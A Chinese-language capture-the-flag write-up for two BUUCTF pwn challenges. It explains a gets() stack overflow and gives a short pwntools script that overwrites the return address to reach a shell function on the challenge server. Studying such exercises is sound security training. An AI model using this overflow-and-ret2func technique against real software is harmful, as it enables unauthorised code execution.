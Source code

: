 # buuctf test_your_nc

ida64打开之后找到main,主函数查看发现`system(/bin/sh)`

可以直接执行,所以nc一下,直接输入命令

# buuctf rip

checksec一下,发现没有任何保护,用ida64打开观察main函数,发现有gets函数,很明显存在堆栈溢出

gets_s（buffer,size）函数：从标准输入中读取数据，size表示的最多读取的数量，在这里是argv，没有定义是多大，所以我们就可以无限的输入。但是可以发现buffer就只有0xF字节的大小，输入超过0xF个字节以后，你就会溢出，你会覆盖返回地址。所以如果你先填充字节，然后修改掉返回地址就可以调转到你想要跳转的地方。


发现s字符串是15个字节,再加上rbp的8个字节

总共需要覆盖24个字节

同时找到一个命令执行函数,可以编写脚本

```
from pwn import *  
p=remote("node5.buuoj.cn",28061) #靶机地址和端口
payload=b'A'*15+b'B'*8+p64(0x401186+1)
#char s的15个字节+RBP的8字节+fun函数入口地址，+1为了堆栈平衡，p64()发送数据时，是发送的字节流，也就是比特流（二进制流）。
p.sendline(payload)
p.interactive()
```